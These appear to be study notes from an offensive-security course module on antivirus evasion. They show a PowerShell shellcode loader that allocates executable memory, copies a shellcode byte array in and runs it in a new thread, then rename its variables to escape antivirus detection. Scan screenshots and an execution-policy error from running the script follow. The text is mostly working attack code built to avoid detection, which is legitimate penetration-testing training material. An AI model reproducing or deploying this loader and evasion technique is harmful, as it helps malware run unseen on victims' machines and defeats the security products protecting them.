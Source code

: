 ```PowerShell

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Use VirusTotal to verify detection rate. It's flagged by 25 vendors..

![Figure 6: VirusTotal results for in-memory injection in PowerShell](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/2c7e9fb6a1f33647d8a7a6afd46c0c88-antivirus_evasion_avira4.png)

Because malicious scripts are flagged on variables and function names, we can rename our script's variables.

```PowerShell
$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Avira scan on our malicious PowerShell script

![Figure 7: Avira scan on our malicious PowerShell script](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/4fa17e69ee3f58d14e446293cb3048ef-antivirus_evasion_avira5.png)

Cooking with gas. 

Our payload is for x86, launching PowerShell (x86)

Attempting to run the script and encountering the Execution Policies error

```hlt:1 
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
